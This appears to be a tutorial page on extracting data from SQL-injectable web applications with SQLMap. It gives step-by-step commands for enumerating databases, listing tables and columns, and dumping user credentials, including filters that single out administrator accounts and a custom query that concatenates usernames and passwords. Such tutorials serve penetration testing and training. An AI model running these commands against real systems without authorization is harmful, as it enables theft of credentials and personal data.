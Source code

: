 ```yaml
---
title: Data Extraction
description: Learn how to extract data from databases using SQLMap
---
```


# Data Extraction with SQLMap

SQLMap provides powerful capabilities for extracting data from vulnerable databases. This section covers various techniques for database enumeration and data extraction.

<Tabs defaultValue="enumeration" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="enumeration">Database Enumeration</TabsTrigger>
    <TabsTrigger value="tables">Table Extraction</TabsTrigger>
    <TabsTrigger value="dump">Data Dumping</TabsTrigger>
  </TabsList>
  <TabsContent value="enumeration">
    ## Database Enumeration
    
    Before extracting specific data, you need to gather information about the database structure:
    
    ### Identifying the Database Management System
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --banner
    ```
    
    This command retrieves the database banner, which typically includes version information.
    
    ### Listing Available Databases
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --dbs
    ```
    
    This command lists all databases accessible to the current user.
    
    ### Current Database Information
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --current-db
    ```
    
    This command identifies the database currently in use by the web application.
    
  </TabsContent>
  <TabsContent value="tables">
    ## Table Extraction
    
    Once you've identified the target database, you can extract information about its tables:
    
    ### Listing Tables in a Database
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D database_name --tables
    ```
    
    Replace `database_name` with the name of the database you want to explore.
    
    ### Listing Columns in a Table
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D database_name -T table_name --columns
    ```
    
    This command lists all columns in the specified table, which helps you identify which columns contain sensitive information.
    
  </TabsContent>
  <TabsContent value="dump">
    ## Data Dumping
    
    After identifying the tables and columns of interest, you can extract the actual data:
    
    ### Dumping Specific Columns
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D database_name -T table_name -C "column1,column2" --dump
    ```
    
    This command extracts data from the specified columns.
    
    ### Dumping an Entire Table
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D database_name -T table_name --dump
    ```
    
    This command extracts all data from the specified table.
    
    ### Dumping an Entire Database
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D database_name --dump
    ```
    
  </TabsContent>
</Tabs>

## Step-by-Step Data Extraction Process

<Stepper>
  <StepperItem title="Identify the Injection Point">
    First, confirm that the target is vulnerable to SQL injection:
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --batch
    ```
    
    SQLMap will automatically test for vulnerabilities and report any findings.
  </StepperItem>
  <StepperItem title="Enumerate Database Information">
    Once you've confirmed a vulnerability, gather information about the database:
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --banner --current-user --current-db
    ```
    
    This command retrieves the database banner, current user, and current database name.
  </StepperItem>
  <StepperItem title="List Available Databases">
    Identify all accessible databases:
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" --dbs
    ```
    
    Review the list and identify databases that might contain valuable information.
  </StepperItem>
  <StepperItem title="Explore Database Structure">
    For each database of interest, list its tables:
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D target_db --tables
    ```
    
    Look for tables with names suggesting they contain user data or other sensitive information.
  </StepperItem>
  <StepperItem title="Extract Sensitive Data">
    Once you've identified tables of interest, extract their data:
    
    ```bash
    sqlmap -u "http://target.com/vuln.php?id=1" -D target_db -T users -C "username,email,password" --dump
    ```
    
    SQLMap will extract the specified columns and attempt to crack any password hashes it finds.
  </StepperItem>
</Stepper>

## Common Database Structures

Different web applications organize their data in various ways. Here are some common database structures you might encounter:

<div className="grid grid-cols-1 md:grid-cols-2 gap-4 mt-6">
  <div className="border rounded-md p-4">
    <h3 className="text-lg font-semibold">E-commerce Platform</h3>
    <FileSystem>
      <FileSystemRoot name="shop_db" />
      <FileSystemItem name="users" type="directory" level={1} />
      <FileSystemItem name="id" type="file" level={2} />
      <FileSystemItem name="username" type="file" level={2} />
      <FileSystemItem name="password" type="file" level={2} />
      <FileSystemItem name="email" type="file" level={2} />
      <FileSystemItem name="products" type="directory" level={1} />
      <FileSystemItem name="id" type="file" level={2} />
      <FileSystemItem name="name" type="file" level={2} />
      <FileSystemItem name="price" type="file" level={2} />
      <FileSystemItem name="description" type="file" level={2} />
      <FileSystemItem name="orders" type="directory" level={1} isLast={true} />
      <FileSystemItem name="id" type="file" level={2} />
      <FileSystemItem name="user_id" type="file" level={2} />
      <FileSystemItem name="product_id" type="file" level={2} />
      <FileSystemItem name="quantity" type="file" level={2} />
      <FileSystemItem name="total" type="file" level={2} isLast={true} />
    </FileSystem>
  </div>
  <div className="border rounded-md p-4">
    <h3 className="text-lg font-semibold">Content Management System</h3>
    <FileSystem>
      <FileSystemRoot name="cms_db" />
      <FileSystemItem name="users" type="directory" level={1} />
      <FileSystemItem name="id" type="file" level={2} />
      <FileSystemItem name="username" type="file" level={2} />
      <FileSystemItem name="password" type="file" level={2} />
      <FileSystemItem name="email" type="file" level={2} />
      <FileSystemItem name="role" type="file" level={2} isLast={true} />
      <FileSystemItem name="posts" type="directory" level={1} />
      <FileSystemItem name="id" type="file" level={2} />
      <FileSystemItem name="title" type="file" level={2} />
      <FileSystemItem name="content" type="file" level={2} />
      <FileSystemItem name="author_id" type="file" level={2} />
      <FileSystemItem name="date" type="file" level={2} isLast={true} />
      <FileSystemItem name="settings" type="directory" level={1} isLast={true} />
      <FileSystemItem name="site_name" type="file" level={2} />
      <FileSystemItem name="theme" type="file" level={2} />
      <FileSystemItem name="api_keys" type="file" level={2} isLast={true} />
    </FileSystem>
  </div>
</div>


## Advanced Data Extraction Techniques

For more complex scenarios, SQLMap offers advanced options:

### Conditional Data Extraction

```bash
sqlmap -u "http://target.com/vuln.php?id=1" -D database_name -T users --dump --where "admin=1"
```

This command extracts only records where the "admin" column has a value of 1, which is useful for targeting administrator accounts.

### Custom SQL Queries

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --sql-query "SELECT concat(username,':',password) FROM users WHERE admin=1"
```

This command executes a custom SQL query, allowing for more complex data extraction scenarios.

